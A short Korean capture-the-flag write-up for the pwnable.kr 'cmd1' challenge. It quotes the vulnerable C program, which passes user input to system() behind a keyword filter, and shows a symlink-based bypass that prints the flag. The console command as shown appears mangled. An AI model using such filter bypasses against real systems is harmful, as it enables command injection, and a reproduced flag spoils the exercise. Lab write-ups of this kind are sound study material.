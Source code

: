 ```yaml
---
title: Pwnable KR - cmd1
slug: pwnable-kr-cmd1
date: 2016-04-25 16:36:00 +0900 KST
categories: [write-up]
markup: mmark
---
```


## 문제

![Pwnable KR cmd1](pwnable-kr-cmd1.png)

cmd1.c 파일 내용은 아래와 같다.
argv[1]에 flag나 sh나 tmp가 들어가면 안되는 듯.

```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
    int r=0;
    r += strstr(cmd, "flag")!=0;
    r += strstr(cmd, "sh")!=0;
    r += strstr(cmd, "tmp")!=0;
    return r;
}
int main(int argc, char* argv[], char** envp){
    putenv("PATH=/fuckyouverymuch");
    if(filter(argv[1])) return 0;
    system( argv[1] );
    return 0;
}
```

## 풀이

export 명령어로 환경변수를 하나 지정해서 넣어주면 된다.
난 처음에 환경변수를 생각 못해서 좀 괴상하게 풀었다.

tmp를 못쓰면 tmp에서 하면 되지!! 해서 이렇게

```console
$ mkdir /tmp/cmd1k
$ ln -s /home/cmd1/cmd1 /tmp/cmd1k/cmd1
$ ln -s /home/cmd1/flag /tmp/cmd1k/f
$ cd /tmp/cmd1k
$ ./cmd1 'bin/catf'
mommy now I get what PATH environment is for :)
$
```

mommy now I get what PATH environment is for :)

환경변수 출력을 어떻게 해야하는지 까먹었는데 이번 기회에 다시 알게되서 참 좋다.
1점 문제만 있으면 좋겠다.
